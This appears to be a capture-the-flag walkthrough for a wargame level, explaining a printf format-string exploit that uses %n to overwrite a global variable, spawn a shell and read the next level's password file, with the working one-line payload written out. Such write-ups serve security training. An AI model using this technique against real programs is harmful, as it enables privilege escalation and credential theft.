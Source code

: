 # Walkthrough

## Disassembling the executable

see source.c

## Analysis

In order to execute /bin/sh as level4, the global variable m must be equal to 64.

We exploited the format string of printf to put the address of the variable m in the stack, and we used the %n function of printf to modify the value held in that address

```
(python -c "print('\x8c\x98\x04\x08 %p %p %p abcdefghijklmnopqrstuvwxyz12345%n')"; echo 'cat /home/user/level4/.pass
') | ./level3
```
